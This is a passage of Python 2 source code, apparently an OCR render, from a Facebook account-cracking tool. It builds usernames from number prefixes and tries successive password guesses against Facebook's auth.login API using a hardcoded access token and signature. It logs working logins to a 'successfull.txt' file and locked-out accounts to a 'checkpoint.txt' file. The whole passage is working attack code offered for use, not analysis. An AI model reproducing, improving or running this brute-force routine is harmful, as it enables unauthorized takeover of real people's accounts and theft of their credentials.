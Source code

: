                         cps.close()
                        cpb.append(k + c + user + pass3)
                    else:
                        pass4 = blackc
                        data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                        q = json.load(data)
                        if 'access_token' in q:
                            print '\x1b[1;93m[\x1b[1;92mKgf_Ok\x1b[1;93m]\x1b[1;93m  ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass4 + '\n' + '\n'
                            okb = open('save/successfull.txt', 'a')
                            okb.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass4 + '\n')
                            okb.close()
                            oks.append(k + c + user + pass4)
                        elif 'www.facebook.com' in q['error_msg']:
                            print '\x1b[1;93m[Kgf_Cp]\x1b[1;93m ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass4 + '\n'
                            cps = open('save/checkpoint.txt', 'a')
                            cps.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass4 + '\n')
                            cps.close()
                            cpb.append(k + c + user + pass4)
                        else:
                            pass5 = blackd
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m[\x1b[1;92mKgf_Ok\x1b[1;93m]\x1b[1;93m  ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass5 + '\n' + '\n'
                                okb = open('save/successfull.txt', 'a')
                                okb.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass5 + '\n')
                                okb.close()
                                oks.append(k + c + user + pass5)
                            elif 'www.facebook.com' in q['error_msg']:
                                print '\x1b[1;93m[Kgf_Cp]\x1b[1;93m ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass5 + '\n'
                                cps = open('save/checkpoint.txt', 'a')
                                cps.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass4 + '\n')
                                cps.close()
                                cpb.append(k + c + user + pass5)
                            else:
                                pass6 = blacke
                                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                q = json.load(data)
                                if 'access_token' in q:
                                    print '\x1b[1;93m[\x1b[1;92mKgf_Ok\x1b[1;93m]\x1b[1;93m  ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass6 + '\n' + '\n'
                                    okb = open('save/successfull.txt', 'a')
                                    okb.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass5 + '\n')
                                    okb.close()
                                    oks.append(k + c + user + pass6)
                                elif 'www.facebook.com' in q['error_msg']:
                                    print '\x1b[1;93m[Kgf_Cp]\x1b[1;93m ' + k + c + user + ' \x1b[1;91m-\xe2\x8b\x84-\x1b[1;93m ' + pass6 + '\n'
                                    cps = open('save/checkpoint.txt', 'a')
                                    cps.write(k + c + user + '-\xe2\x80\xa2\xe2\x97\x88\xe2\x80\xa2-' + pass4 + '\n')
                                    cps.close()
                                    cpb.append(k + c + user + pass6)
        except:
            pass